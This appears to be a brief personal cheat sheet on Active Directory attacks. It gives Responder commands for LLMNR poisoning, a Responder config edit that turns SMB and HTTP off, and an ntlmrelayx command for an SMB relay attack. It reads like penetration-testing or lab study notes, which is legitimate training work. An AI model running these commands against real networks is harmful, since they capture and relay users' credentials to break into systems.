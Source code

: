 # ADAttacking

## LLMNR poisioning

```
python3 responder -I tun0 -rdwv
```

Edit responder. 

```
sudo nano /usr/share/responder.conf
```
---
## SMB Relay Attack (Respoonder)

```
python3 responder -I tun0 -rdwv
```

Edit responder. 

```
sudo nano /usr/share/responder.conf
# SMB OFF
# HTTP OFF
```

NTLMRelay

```
ntlmrelayx.py -tf targets.txt -smb2support
```
---

